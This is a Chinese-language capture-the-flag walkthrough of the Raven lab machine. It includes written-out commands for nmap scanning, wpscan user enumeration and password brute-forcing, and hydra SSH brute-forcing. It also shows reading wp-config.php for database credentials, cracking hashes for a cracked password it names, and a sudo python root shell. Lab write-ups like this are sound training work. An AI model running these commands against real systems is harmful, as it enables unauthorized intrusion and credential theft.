```bash
nmap -sV -sC -T4 -p- 10.204.219.237
```

```bash
nmap -sV -sC -T4 -p- 10.204.219.237
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-02 19:14 +0800
Nmap scan report for 10.204.219.237
Host is up (0.00037s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
53/tcp    open  domain  (generic dns response: NOTIMP)
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38265/tcp6  status
|   100024  1          39893/udp6  status
|   100024  1          45098/udp   status
|_  100024  1          55288/tcp   status
55288/tcp open  status  1 (RPC #100024)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=7/2%Time=6A464806%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x85\x84\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.25 seconds
                                                                                                                                                      s
```

#### 扫目录发现wordpress,应该是wordpress的CMS



#### 或者进入网站的最下方


#### 点击它，会跳转到wordpress的主题网站


## 然后直接上wpscan扫描



#### 但是不是wordpress的站点，哈哈😃

```
http://10.204.219.237
```

#### 上面这个url不行，需要用刚才扫出的目录



```bash
wpscan --url http://10.204.219.237/wordpress -e u
#这个才是wp站点http://10.204.219.237/wordpress
```



#### 发现两个用户



可以给接口给wpscan爆破了

```bash
wpscan --url http://10.204.219.237/wordpress -U pp -P /home/neon/Desktop/Common-Credentials/best1050.txt 
```

#### 后台登录页会重定向，需要在 /etc/hosts加上域名解析







#### 没有爆破出后台密码

### 去看一下爆破一下ssh，前面看到22端口开了

```bash
 hydra -L pp -P /home/neon/Desktop/Leaked-Databases/rockyou-20.txt 10.204.219.237 ssh -t 16
```


### 出现一个密码

#### ssh登录后发现flag2



```bash
cd /var/www/html/wordpress
```



## 去配置文件找数据库的账号密码

```bash
cat wp-config.php
```



#### 登录mysql去找其他网站用户的密码，可能网站用户的账号密码，和系统用户的账号密码设置是一样的，因为这个系统管理员觉得方便

#### 但是刚才爆破出的那个michael密码在网站后台无法登录，说明系统用户和网站用户的账号名设置相同，密码不同





#### 发现steven的密码，其实这个密码可以在刚才的ssh爆破中就爆破出来的，但是ssh爆破太浪费时间了，所以在爆破出一个用户后就进数据库找另一个的密码

# 在宿主机上跑hashcat的nvidia需要装 NVIDIA 的 OpenCL 支持包:sudo pacman -S opencl-nvidia,显卡驱动

## 神了

# 9秒跑了1434万行字典居然没解出来，GPU都被榨干了，这个字典也是到头了

### 这个micchael的网站密码没有跑出来





## steven的密码是pink84，可以跑出来



## 切换为steven用户后



#### 然后python起个root的shell

```python
sudo python -c 'import os; os.system("/bin/bash")'
```




